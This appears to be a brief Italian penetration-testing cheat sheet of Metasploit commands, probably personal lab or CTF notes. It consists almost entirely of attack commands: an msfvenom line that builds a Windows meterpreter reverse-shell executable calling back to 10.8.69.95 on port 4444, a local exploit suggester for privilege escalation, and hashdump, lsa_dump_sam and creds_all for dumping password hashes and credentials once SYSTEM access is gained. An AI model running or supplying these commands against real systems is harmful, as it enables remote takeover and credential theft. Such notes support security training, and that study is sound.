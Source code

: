 ### **GENERARE UNA SHELL**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.69.95 lport=4444 -f exe > shell.exe
```

### **EXPLOIT SUGGESTER**
```MSF
run post/multi/recon/local_exploit_suggester
```
### **HASH DUMP**
==devi essere system==
```MSF
hashdump
```
```MSF
lsa_dump_sam
```

### **DUMP CREDENZIALI**
==Devi essere system==
```MSF
creds_all
```
